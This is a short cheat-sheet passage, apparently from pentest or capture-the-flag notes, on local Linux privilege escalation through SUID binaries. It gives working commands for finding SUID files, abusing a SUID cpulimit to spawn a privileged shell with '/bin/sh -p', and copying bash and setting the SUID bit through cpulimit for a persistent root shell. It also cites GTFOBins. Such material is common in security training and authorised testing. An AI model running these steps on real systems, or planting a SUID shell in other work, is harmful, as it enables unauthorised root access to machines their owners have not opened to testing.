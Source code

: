 Command:

`find / -type f -perm -u=s 2>/dev/null`

[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

Here you want to see if there are any SUID based exploit for any found binary.

example:

```
$ find / -type f -perm -u=s 2>/dev/null
.......
/usr/bin/cpulimit
.......
```
https://gtfobins.github.io/gtfobins/cpulimit/#suid

```
sudo install -m =xs $(which cpulimit) .

./cpulimit -l 100 -f -- /bin/sh -p
```

If cpulimit is exploitable, you could install or exploit through existing binary.

To further extend this, you could also use this to copy change permission & then execute.


- Copy bash to your home
  - `cpulimit -l 100 -f cp /bin/bash .`

- Set UID/GID by chmod +s
  - `cpulimit -l 100 -f chmod +s ./bash`

- execute with -p (drop into shell)
  - `./bash -p`
